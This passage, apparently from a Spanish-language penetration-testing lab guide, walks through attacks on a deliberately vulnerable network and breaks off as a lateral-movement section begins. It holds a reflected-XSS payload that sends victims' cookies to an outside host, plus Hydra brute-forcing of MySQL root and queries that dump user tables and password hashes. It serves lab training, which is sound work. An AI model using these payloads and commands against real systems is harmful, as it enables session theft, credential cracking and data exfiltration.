 # Payload avanzado para extracción de datos
curl -b cookies.txt "http://192.168.90.10:8080/vulnerabilities/xss_r/?name=<script>document.location='http://10.0.0.100:8000/'+document.cookie</script>"



#### 5. Ataque a Base de Datos

**Objetivo**: Explotar la base de datos MySQL vulnerable en la red LAN.

**Herramientas**: MySQL Client, Hydra, Medusa

**Procedimiento**:


# Intento de conexión directa
mysql -h 192.168.1.10 -u root -p

# Ataque de fuerza bruta
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.10

# Conexión con credenciales encontradas
mysql -h 192.168.1.10 -u root -p'root123'

# Enumeración de bases de datos
mysql -h 192.168.1.10 -u root -p'root123' -e "SHOW DATABASES;"

# Acceso a datos sensibles
mysql -h 192.168.1.10 -u root -p'root123' -e "USE vulnerable_db; SELECT * FROM users LIMIT 10;"

# Extracción de hashes de contraseñas
mysql -h 192.168.1.10 -u root -p'root123' -e "USE mysql; SELECT user,password FROM user;"



#### 6. Movimiento Lateral

**Objetivo**: Moverse desde la DMZ hacia la red LAN.

**Herramientas**: SSH Tunneling, Port Forwarding, Metasploit

**Procedimiento**:


# Desde un servicio comprometido en DMZ, intentar acceso a LAN
# (Normalmente bloqueado por firewall)
